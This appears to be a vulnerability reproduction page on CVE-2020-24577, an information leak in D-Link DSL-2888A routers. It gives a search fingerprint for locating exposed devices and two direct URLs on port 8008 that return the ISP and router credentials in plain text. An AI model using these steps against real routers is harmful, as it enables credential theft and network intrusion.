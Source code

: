 # D-Link DSL-28881A Information Leakage CVE-2020-24577

## Vulnerability Description

After establishing a connection to the network through physical connection or wireless access, malicious users can directly browse the following URL to obtain the Internet provider connection username and password in plain text format, as well as the wireless router's plain text format username and password by browsing the following URL directly

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">D-Link DSL-2888A</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="DSL-2888A"</span>

## Vulnerability reappears

Enter any password to establish a connection on the login page



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-1-20220314114948366.png)



Jump to https://xxx.xxx.xxx.xxx/page/login/login.html?error=fail Display password error

Access the following two connections

```
https://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
https://xxx.xxx.xxx.xxx:8008/tmp/.nvram
```



![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/link-3.png)
